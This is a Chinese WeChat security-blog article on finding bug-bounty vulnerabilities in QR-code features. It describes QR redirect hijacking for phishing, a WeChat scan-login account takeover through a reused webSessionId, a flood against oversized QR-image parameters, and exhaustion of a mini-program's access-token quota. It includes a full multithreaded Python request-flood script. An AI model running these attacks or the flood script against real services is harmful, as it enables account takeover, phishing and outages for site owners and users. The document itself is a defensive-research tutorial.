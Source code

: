#  二维码功能点SRC漏洞挖掘   
 GG安全   2025-04-25 08:04  
  
**免责声明**  
  
由于传播、利用本公众号红云谈安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号红云谈安全及作者不为**此**  
承担任何责任，一旦造成后果请自行承担！本文为连载文章欢迎大家关注红云谈安全公众号！  
  
  
在漏洞挖掘过程中我们经常会遇到二维码，二维码出现的场景主要有支付状态下、扫描登录、扫码关注、扫码分享、扫码下载。针对生成二维码这个功能会产生什么样的漏洞呢？请让我一一给你讲解！  
## 二维码劫持（方式一）  
  
在我们进行支付时一般会出现一个二维码，还有进行扫码登录，微信分享篇文章时都会出现！很多生成这个二维码链接后面都会有一个URL地址，根据这个URL地址来生成二维码，你看下列案例。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRdDDVttyC8BoHzQrXI3cS5JiaFx2zm9KAu6e0BD4691QwIdicKqib0iaMog/640?wx_fmt=png "")  
  
生成一个二维码后，我们复制二维码地址，然后可以看到后面data值为一个URL地址，我们只需要将URL地址替换为钓鱼网站地址，对方扫码就能够跳转到钓鱼网站，这里添加为百度地址，用手机扫码后就会成功跳转到百度！这个一般是低危！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRKeRgvcBA85Z7dVSaicG44MPhVqMYcJmP6k5WNRc5SeX4iahLial4YJwIg/640?wx_fmt=png "")  
## 二维码劫持（方式二）  
  
不知道你会不发现就是非常多的登录框，都支持微信扫码登录，而在这个微信扫码登录的过程会出现什么样的安全问题呢？ 一般流程![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PR3XG52lFyToAMjYntG7v5YUViaCQOl3VzeoA0IUwtdY1iahbuT9cmiac0Q/640?wx_fmt=png "")  
  
  
首先出现一个微信扫码登录![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRHEP3HHJ1ZibHGB7EYfkZ9Jej5KHribicBUBXxZOF4fBibER3fjKRpMJGRA/640?wx_fmt=png "")  
使用微信扫完码后会跳转到一个微信公众号，点击关注公众号  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRr6jEiaBKrpIialxIg7T5lfroFtpjHEbdQJgicJoD2OBAJxxnQIvvaZo9Q/640?wx_fmt=png "")  
关注玩公众号后会出现，类似以下需要点击授权界面![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRnScoys2bC0rvRicUa2LX5hmic9CQf6IZVEOCGu5cBUn5Cvx7ic5KACicbQ/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRRxnibc8yfa8qEKsjAwbmedGJtWtpFzZt0mFDKN72qdpMLHa0ouW4cEw/640?wx_fmt=png "")  
  
当我们点击授权的时候，就会发现浏览器Web端页面跳转，登录成功！ 回到最初的微信扫码登录点，浏览器会一直发送请求数据包进入一种循环状态，判断是否扫描了二维码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRWGWQAbIIvOHYwx6Z6vM68zHHCibN33QPbdGEUMcxYE7WqHF3fut5NhA/640?wx_fmt=png "")  
我们任意访问一个上面的请求包，你会发现post body的其中一个参数，“webSessionId”，记住这个值：819xxxxxxxxx![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRDVhyjOBjsvHSVtSHbALMVFk7ib3aMH2o8Yl0EpV0icCWEmiazOxSXFMCA/640?wx_fmt=png "")  
接下来我们去微信公众号中分析，先点击授权并抓包，你会发现有一个以下链接 https://xxx.aaa.com/api/login/auth?webSessionId=819xxxxxxxxx  
你可以惊奇的发现点击授权和我们浏览器中获取的值相同，这边有什么用呢？这是一个值得我们思考的问题，受害者扫码我们能否代替对方“点击授权”，我们有了webSessionId，可以自己构造点击授权的URL，然后使用自己的微信聊天框发送给自己的电脑，然后点击授权。 模拟攻击思路： 先发送一个链接给自己的电脑对话框好直接访问![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRaFLGgM7qhGA8uwtFBU5KmEia43M3AqEzicMmtFV9ToM2sIlqLnnZ5N8g/640?wx_fmt=png "")  
发送web端登录的二维码图片给受害者（这边有个限制就是必须在该二维码的有效时间扫描才有效）这要对方扫码后![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PROrwdsgvgGdfkCRA3zW89fVAXwMOv0NcN3fI4Qt7SiaWMDqIQhU1icY8g/640?wx_fmt=png "")  
只要一点击前往图中包含的公众号，不管他后面如果操作都不用去管，我们只要不断的去点击上方对话框的链接![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRKzb9ZUvrnCbrv1nLpTb0IDuicDFbWX5ROPXuP8FjpnuILK0ZzribxttA/640?wx_fmt=png "")  
看是否会到确认这一步即可，只要我们能够到这一步就能够获取到对方的账号权限。![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRrwoAwnRDYwkkpJMTcvLIKWmPRvCGlNtuLjt8JDh2ry1y8DPSOnvw2g/640?wx_fmt=png "")  
  
## 拒绝服务漏洞（高危）  
  
点击二维码登录并抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRKwPCcUUXFJBwibqxUZZ5Vvqej4GVJZPiaR2kOicgyNhVzNKiaDLRtkJ7tw/640?wx_fmt=png "")  
接口如下: https://wwww.xxx.com/xxxx/xxxx/v1/xxxx?width=162&height=162 该请求上面width和height参数控制服务器返回图片的大小  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRiaDMgib0nes6t35qE9sB2FQM1KXgGWJM0ougvCwhAW7UBbFP8piaibFwvA/640?wx_fmt=png "")  
增大width和height值发现返回的数据也发生了变化、并且响应的时间也变长了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRWib3Vp4IAI9RibgbuB84Vwgf5AwmVLWILibEOfJWhD8Q92VA4QOW6ibH4Q/640?wx_fmt=png "")  
通过测试width和height最大为14000，要返回如此多的数据将是一个巨大的过程，直接使用Burp或者编写脚本进行批量请求就能够造成整个服务器拒绝服务，再其他产商也发现类似的漏洞，验证的时候可以这样排除干扰、使用2个网络：一个手机数据流量、一个是电脑所连接的WiFi、电脑进行ddos、手机使用数据流量、访问该链接，即可证明。将width和height值调到最大进行跑即可  
```
import requestsimport threadingimport time"""    @ 单线程为测试,可忽略    @ 使用时修改url即可    @ 可根据实际情况修改访问次数,默认为10000    @ 仅供学习参考,请勿实施攻击"""# 访问指定Urldef requser():    headers = {        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36'    }    # 将参数的设置为最大临界值的链接    url = "https://www.xxxx.com/xxxx?width=14000&height=14000"    # url = "https://www.baidu.com/"    req = requests.get(url=url, headers=headers)    print("resuest Success!")# 单线程访问def single_thread():    for i in range(50):        requser()        print(f"现在是第{i}次请求网页")# 多线程访问def multi_thread():    print("multi_thread begin")    threads = []    for i in range(10000):  # 10000为访问次数,可根据实际调整        threads.append(            threading.Thread(target=requser)        )    print(threads)    for thread in threads:        thread.start()    for thread in threads:        thread.join()    print("multi_thread end")if __name__ == '__main__':    # 单线程    # single_thread()    # 多线程    start = time.time()    multi_thread()    end = time.time()    t = end - start    print(f"multi thread cost:{t} s")
```  
  
为防止服务器瘫痪这边我只是跑了几秒钟做了一个简单的测试然后马上关闭了,使用手机进行访问，直接一直加载中，整个服务器瘫痪，用到该服务器下的所有接口将全部不能用，危害极大，这边因为只跑了几秒，所以服务器很快就恢复了，这边要跑的时候记得跟产商沟通别瞎跑，小心服务器真的给你跑蹦了！一般说明到上面不用跑也能说明危害了，产商需要进一步证明的话就直接跟产商沟通。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRppsBH6cOQLX1vZ0UMmv5SFfMQJIHxlDRfLl3z7g3aIkXBwG8s0TuOA/640?wx_fmt=png "")  
## 小程序扫码登录  
  
该功能点是通过微信小程序进行扫码登录，先点击个人登录抓个包试下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRcENpxSZnvouqLYgOdd997oBR7ZXN7dps3K24c1BcibNRaJVrQJUUqEw/640?wx_fmt=png "")  
  
在这里插入图片描述  
  
抓到这个接口数据包，返回一大串加密数据，该接口的字面意思就是获取微信的accesstoken![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRibiaJr8rglnXl0KVtnDFTE2LFjibGulmicEMWSSiaHslEtdyC1icoAibT1icOw/640?wx_fmt=png "")  
  
  
现在系统有太多这样使用微信小程序扫码登录的功能点了，所以我决定好好的去看看开发文档，以后说不一定能挖到非常多洞。 通过开发文档了解到accesstoken是微信小程序的调用命脉![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRhQic6O8XOyJ1lmIviamdD6OTebTIygl94WFT1dutWrLLwuajibGxRVTKQ/640?wx_fmt=png "")  
  
  
通过抓取的数据包知道上面的个人登录功能点是先获取accesstoken、再调用accesstoken来后去生成二维码。这里直接就获取微信小程序的accesstoken了、相当于无需知道appid和APPsecret就可以拿到accesstoken了，这里补充一下知识点。 根据小程序开发手册，如果你获取到appid和secret的话那么就可以直接获取到accesstoken  
```
https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=APPID&secret=APPSECRET
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRiaanrrZYcmQBc3lmfx7CPbYsChA43ucFrQy5BltqiaSBXGOIJVohdLIg/640?wx_fmt=png "")  
  
在这里插入图片描述  
  
利用该accesstoken去在线开发者工具平台上传一张图片证明accesstoken是微信小程序的accesstoken 如下： 上传成功：![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRndiaSCb5EsYKo55vxXYsDKx2goQLVPR6Ul7heCGVBLgibcv9QML8ewHA/640?wx_fmt=png "")  
后续可以根据开发者文档调用很多微信小程序的接口、危害大。 还有微信开发者文档规定accesstoken一天只能获取两千次、可以通过该接口不断获取接口accesstoken、从而导致奔溃、后续只要有用到accesstoken的功能点和小程序都会无法使用![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRicAiaOyZcfMQc0Thtw6emWkXe3AkEaTMlyFeDcBVicSrDlibRWPm8QiblvQ/640?wx_fmt=png "")  
为了不影响业务在快凌晨12点的时候进行了测试复现![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRPRbRTicvUj4rlUmw3kmqvWqu5Ie6HdGIVm5dWbPkfN4y8lQYfDTUkGQ/640?wx_fmt=png "")  
Burp不断请求、一分钟不到就获取不到accesstoken![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PRiaCwzAicuiciccdgaYPJ6kolFwcU39TK9wJTX8tPGp6BuZWuh18eyFJ8jg/640?wx_fmt=png "")  
尝试进行登录，已经无法获取到二维码了、并且很多内容都是需要登录才可以进行查看的，危害非常大。![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMH1ycPL4FB89xRC9zGJc0PR7nlovquvwKnKzY3p2BZyf9xwCnbencyic4uUEToTibDpYurG2KKJ3Y3A/640?wx_fmt=png "")  
  
  
  
**1**  
►  
  
**福利放送**  
  
    再次声明：本公众号及其发布的内容的使用者需自行承担由此产生的任何直接或间接的后果和损失，GG安全公众号和原文章作者不承担任何责任。  
  
****  
**edusrc邀请码 | 玄机邀请码**  
  
    免费不限量提供edusrc邀请码及  
玄机邀请码  
，可在的菜单栏  
资源获取-edusrc邀请码   
| 玄机邀请码  
中获取。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/ia30l0vOygMG0stgMGrb9qOt6icialDd5WP60Tuk8mdKsbAHGHRgZpIrV0yUN479hWrFTa8NoPEumPTP3h3bO4iaWQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
**2**  
►  
  
**往期精彩**  
  
[](https://mp.weixin.qq.com/s?__biz=MzIwMjE2NTM5Mg==&mid=2247485283&idx=1&sn=d26389e1d4ace54a43b2b2c893a474b6&scene=21#wechat_redirect)  
  
Edusrc高校证书测评  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzIwMjE2NTM5Mg==&mid=2247485141&idx=1&sn=ffcd2813da3458253b630dfeb9fbe581&scene=21#wechat_redirect)  
  
绝版乌云重现：在VM中复活的安全宝藏  
  
  
[](https://mp.weixin.qq.com/s?__biz=MzIwMjE2NTM5Mg==&mid=2247484834&idx=1&sn=f5c5d3ca80704c6fcc466f7c24bd71d5&scene=21#wechat_redirect)  
  
钓鱼佬永不空军！社g之学姐送我“严重”漏洞  
  
  
